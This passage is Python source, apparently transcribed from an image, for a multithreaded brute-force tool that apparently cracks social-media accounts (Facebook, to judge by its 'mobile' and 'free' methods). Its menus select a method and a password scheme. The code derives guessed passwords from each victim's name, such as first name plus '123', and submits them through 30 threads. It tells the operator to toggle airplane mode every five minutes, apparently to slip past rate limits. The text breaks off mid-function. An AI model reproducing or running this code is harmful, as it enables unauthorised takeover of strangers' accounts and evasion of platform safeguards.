 	clear()
	print(logo);print ('\n [01] Method 1 ');print (' [02] Method 2 \033[1;97m')
	hc = input ("\n [#] method : ")
	if hc in ['1','01']:
		method.append('mobile')
	elif hc in ['2','02']:
		method.append('free')
	else:
		method.append('mobile')
	passmenu()
def passmenu():
	clear()
	print(logo);print  ('\n [01] First name digit pass \n [02] All Name Password \n [03] All Name+ password')
	passmen=input('\n [#] Select Pass : ')
	if passmen in ['1','01']:
		first()
	elif passmen in ['2','02']:
		name()
	elif passmen in ['3','03']:
		name2()
	else:
		passmenu()
		
def first():
	clear()
	print(logo);print( '\n\033[1;94m [!] BRUTE  HAS BEEN START \n\033[1;96m [!] Turn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = ['445566']
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(free,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)
def name():
	clear()
	print(logo);print( '\n [!] OK Result Saved To : \033[1;92mOK.txt/%s\033[1;97m\n [!] CP Result Saved To : \033[1;91mCP.txt/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			try:
				idf,nmf = yuzong.split('|')
				xz = nmf.split(' ')
				if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: